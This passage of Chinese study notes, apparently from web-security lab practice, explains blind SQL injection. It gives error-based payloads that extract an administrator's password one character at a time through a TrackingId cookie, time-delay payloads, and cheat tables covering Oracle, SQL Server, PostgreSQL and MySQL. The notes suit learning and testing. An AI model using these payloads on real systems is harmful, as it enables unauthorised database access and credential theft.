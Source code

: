 *若数据库为Oracle*
>TrackingId=xyz' || ( SELECT '' FROM not-a-real-table ) || '
>返回错误表明注入被后端作为 SQL 查询处理

#### 判断是否存在表

>TrackingId=xyz' || (SELECT '' FROM users WHERE rownum = 1) || '
>存在则返回TURE 不存在则返回FASE （rownum = 1 限制返回 一行）

#### 判断是否存在内容

>'|| (SELECT username FROM users WHERE username='administrator') ||'
>若无显示
>'|| (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)||'
>自行构建判断CASE语句故意触发SQL错误
---
*备注*
甲骨文&emsp;&emsp;&emsp;&emsp;SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
微软&emsp;&emsp;&emsp;&emsp;&emsp;SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL&emsp;&emsp;1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
MySQL&emsp;&emsp;&emsp;&emsp;SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
---
*执行方案*

'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
SQL：先执行 FROM users WHERE username='administrator' 判断表中是否存在
若存在 则执行 判断语句
再利用CASE故意执行错误语句 报错

#### 判断内容长度

>'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>1)||'
>判断字符是否大于1 若程序报错 则说明大于1
>

#### 判断内容

>'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'
>判断第一个字符是否是’a 若程序报错 则说明是a

### 触发时间延迟SQL盲注

#### 判断是否存在SQL

>' || SLEEP(10)--
>如果目标延迟10秒反应则说明存在

*备注*
甲骨文&emsp;&emsp;&emsp;&emsp;dbms_pipe.receive_message(('a'),10)
微软&emsp;&emsp;&emsp;&emsp;&emsp;WAITFOR DELAY '0:0:10'
PostgreSQL&emsp;&emsp;SELECT pg_sleep(10)
MySQL&emsp;&emsp;&emsp;&emsp;SELECT SLEEP(10)
